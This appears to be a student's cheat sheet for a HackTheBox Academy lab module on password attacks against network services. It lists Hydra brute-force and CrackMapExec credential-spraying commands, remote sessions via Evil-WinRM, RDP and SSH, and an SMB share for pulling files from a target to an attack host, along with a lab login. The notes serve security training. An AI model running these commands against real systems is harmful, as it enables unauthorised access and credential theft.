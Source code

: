 ```yaml
---
description: >-
  ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/bed36b1f-6a89-4b97-8ce1-d98b6498d046/a65f6048-09db-4388-8d5f-62c167765062/Untitled.png)
---
```


# Password Attacks

## **Network Services**

| Command                                                                                          | Description                                                                                                                                                            |
| ------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| xfreerdp /v:\<ip> /u:htb-student /p:HTB\_@cademy\_stdnt!                                         | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.                                                                                  |
| evil-winrm -i \<ip> -u user -p password                                                          | Uses Evil-WinRM to establish a Powershell session with a target.                                                                                                       |
| ssh user@\<ip>                                                                                   | Uses SSH to connect to a target using a specified user.                                                                                                                |
| smbclient -U user \\\\\\\\\<ip>\\\SHARENAME                                                      | Uses smbclient to connect to an SMB share using a specified user.                                                                                                      |
| python3 [smbserver.py](http://smbserver.py) -smb2support CompData /home/\<nameofuser>/Documents/ | Uses [smbserver.py](http://smbserver.py) to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host. |

* `CrackMapExec` (no longer maintained) `netexec` is recommended
  * `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>` `crackmapexec winrm 10.129.42.197 -u user.list -p password.list` to get username and password
  * `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares` to view available shares and what privileges we have
* **`Evil-WinRM` communicate with `winrm` service**
  * `evil-winrm -i <target-IP> -u <username> -p <password` if credentials are correct, terminal session is initialized using PowerShell Remoting Protocol (MS-PSRP)
* `Hydra` brute forcing tool
  * `hydra -L user.list -P password.list ssh://10.129.42.197`
  * `hydra -L user.list -P password.list rdp://10.129.42.197`
  * `hydra -L user.list -P password.list smb://10.129.42.197`
